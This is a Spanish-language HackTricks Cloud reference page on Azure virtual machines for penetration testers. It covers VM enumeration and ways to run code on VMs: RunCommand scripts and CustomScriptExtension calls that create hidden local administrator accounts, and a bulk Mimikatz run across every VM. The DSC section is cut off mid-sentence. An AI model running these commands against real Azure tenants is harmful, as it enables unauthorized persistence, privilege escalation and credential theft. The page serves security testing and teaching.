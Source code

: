 # Az - Máquinas Virtuales

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si deseas ver a tu **empresa anunciada en HackTricks** o si deseas acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

* **Comparte tus trucos de hacking enviando PRs a los repositorios de GitHub de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Información básica

Las máquinas virtuales de Azure son uno de varios tipos de recursos informáticos escalables bajo demanda que ofrece Azure. Por lo general, se elige una máquina virtual cuando se necesita más control sobre el entorno informático que las otras opciones ofrecen. Este artículo le proporciona información sobre lo que debe considerar antes de crear una máquina virtual, cómo crearla y cómo administrarla.

## Enumeración

```powershell
# Obtener VMs legibles
Get-AzVM | fl
# Listar VMs en ejecución
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Obtener interfaz y dirección IP
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

# Obtener extensiones instaladas
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Obtener el nombre del conector de red de la VM
Get-AzNetworkInterface -Name <name> # Obtener información del conector de red (como la IP)
```

## **Ejecutar comandos en una VM**

### **Inicio de sesión de AAD en VM**

Es posible permitir el acceso a usuarios autenticados a través de AzureAD. Por ejemplo, al intentar acceder a una **VM de Linux**: `ssh username@azure-corp.com@1.1.1.1` (es importante **usar el correo electrónico** con el azurecorp utilizado al intentar iniciar sesión) se puede obtener un error como:

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Solo **siga esas instrucciones** yendo a [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) e indicando el código, use el correo electrónico y la contraseña como credenciales y podrá conectarse a través de SSH (si ese usuario tiene suficientes permisos para hacerlo: rol `Virtual Machine Administrator Login` o `Virtual Machine User Login`).

### **Ejecutar comando**

```powershell
# El permiso que permite esto es Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Otra forma
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Contenido del script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd 
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Intentar ejecutar en todas las máquinas
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```

### **Ejecutar extensión de script personalizado**

Las extensiones de máquina virtual (VM) de Azure son **pequeñas aplicaciones** que proporcionan configuración posterior a la implementación y tareas de automatización en **VM de Azure**. Por ejemplo, si una máquina virtual requiere la instalación de software, protección antivirus o la capacidad de ejecutar un script dentro de ella, puede usar una extensión de VM.

Por lo tanto, si tiene acceso para escribirlo, puede ejecutar código arbitrario:

```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```

### DesiredConfigurationState

**DesiredConfigurationState (DSC)** es similar a Ansible, pero es una herramienta dentro de PowerShell que permite configurar un host a través de código. DSC tiene su propia extensión en Azure que permite la carga de **archivos de configuración** de DSC. Los archivos de configuración de DSC [son bastante quisquillosos](https://docs.microsoft.com/en-us/powershell/dsc/getting-started/wingettingstarted?view=dsc-1.1#define-a-configuration-and-generate-the-configuration-document) en cuanto a la sintaxis, sin embargo, la extensión de DSC es muy ingenua y ejecutará **ciegamente cualquier comando** siempre y cuando siga un cierto formato, como se muestra en la figura 5.

<figure><img src="../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

Esto se puede hacer a través de la función de PowerShell de **Az [**`Publish-AzvmdscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0)**. La extensión de DSC requiere un **.PS1** con una **función
## Referencias

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si deseas ver a tu **empresa anunciada en HackTricks** o si deseas acceder a la **última versión de PEASS o descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop).
* Obtén la [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos.
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>